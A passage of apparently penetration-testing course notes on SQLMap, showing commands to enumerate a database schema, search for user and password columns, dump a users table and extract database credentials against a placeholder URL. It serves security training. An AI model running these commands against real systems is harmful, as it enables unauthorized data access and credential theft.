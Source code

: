 ## Table of Contents

  - [DB Schema Enumeration](#DB\Schema\Enumeration)
  - [Searching for Data](#Searching\for\Data)
  - [Password Enumeration and Cracking](#Password\Enumeration\and\Cracking)
  - [DB Users Password Enumeration and Cracking](#DB\Users\Password\Enumeration\and\Cracking)
  - [Unique Value Bypass](#Unique\Value\Bypass)
  - [Calculated Parameter Bypass](#Calculated\Parameter\Bypass)
  - [IP Address Concealing](#IP\Address\Concealing)
  - [User-agent Blacklisting Bypass](#User-agent\Blacklisting\Bypass)
  - [Tamper Scripts](#Tamper\Scripts)

## DB Schema Enumeration

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:

```shell
gdxqpardo@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema
```

## Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

```shell
gdxqpardo@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell
gdxqpardo@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

## Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:

```shell
gdxqpardo@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

## DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:

```shell
gdxqpardo@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```
Tip: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.
